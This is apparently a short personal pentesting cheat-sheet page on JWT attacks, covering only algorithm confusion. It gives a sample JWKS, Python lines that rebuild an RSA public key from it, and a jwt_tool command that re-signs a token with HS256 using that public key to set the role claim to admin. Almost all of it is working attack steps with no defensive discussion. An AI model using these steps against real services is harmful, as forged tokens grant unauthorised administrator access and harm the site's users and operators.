 ```yaml
---
title: "JWT"
date: 2024-8-1
tags: ["jwt", "jwks", "forge", "cookies"]
---
```


---
### Abuse #1: Algorithm confusion

#### 0. Sample jwks.json

<div>

```json
{ 
    "keys": [
        {
        "kty": "RSA",
        "use": "sig",
        "alg": "RS256",
        "n": "<BASE64_n>",
        "e": "AQAB"
        }
    ]
}
```

</div>

#### 1. Create a public key

<div>

```bash
python3
```

```bash
from base64 import urlsafe_b64decode
```

```bash
from Crypto.PublicKey import RSA
```

```bash
e = int.from_bytes(urlsafe_b64decode(b'AQAB'))
```

```bash
n = int.from_bytes(urlsafe_b64decode(b'<BASE64_n>'))
```

```bash
key = RSA.construct((n, e))
```

```bash
# Save it to public.pem
print(key.exportKey().decode())
```

</div>

#### 2. Forge a jwt

<div>

```bash
# For example, modify role to admin
python3 jwt_tool.py -S hs256 -k public.pem -I -pc role -pv admin <JWT>
```

</div>

<small>*Ref: [jwt_tool](https://github.com/ticarpi/jwt_tool)*</small>

<br>